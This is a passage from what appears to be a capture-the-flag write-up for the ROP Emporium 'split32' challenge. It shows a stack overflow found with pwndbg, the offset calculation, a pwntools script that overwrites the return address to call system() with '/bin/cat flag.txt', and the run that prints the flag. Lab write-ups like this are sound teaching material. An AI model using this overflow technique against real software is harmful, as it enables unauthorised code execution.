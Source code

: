 
Now lets check our base pointer values and stack values

```c
pwndbg> x/2wx $ebp
0xffffd1f8:	0xffffd208	0x08048590
pwndbg> x/30wx $esp
0xffffd1c0:	0x00000000	0xffffd1d0	0x00000060	0x00000004
0xffffd1d0:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffd1e0:	0x0000000a	0x00000000	0x00000000	0x00000000
0xffffd1f0:	0x080486c6	0x00000000	0xffffd208	0x08048590
0xffffd200:	0xf7fe22f0	0xffffd220	0x00000000	0xf7de0ee5
0xffffd210:	0xf7fad000	0xf7fad000	0x00000000	0xf7de0ee5
0xffffd220:	0x00000001	0xffffd2b4	0xffffd2bc	0xffffd244
0xffffd230:	0xf7fad000	0x00000000
```

Our BP ```0xffffd208``` is at ```0xffffd1f9```  and our buffer starts at ```0xffffd1d0```

```c
>>> print(0xffffd1f8-0xffffd1d0)
40
```

So our buffer space is ```40 bytes```

To ovewrite Instruction Pointer we should pass ```44 bytes``` of junk values

Since it is a 32 bit, we no need to worry about gadgets for ROP

We need the address of function to be called (In this case ```system()```)

Next to it, the exit address after the previous functions is executed 

Following these, the argument to be passed inside our function  to be called (In this case ```/bin/cat flag.txt```)

So our payload can be framed by,

```payload = 44 bytes junk + Address of system() + Exit Address + Address of "/bin/cat flag.txt" ```

So our final exploit is,

```c
ra@moni:~/split32$ cat exp.py
from pwn import *
cat=p32(0x0804a030)
system=p32(0x080483e0)
payload='A'*44
payload+=system
payload+='BBBB'
payload+=cat
print(payload)
```

Lets try running this,

```c
ra@moni:~/split32$ python2 exp.py | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```
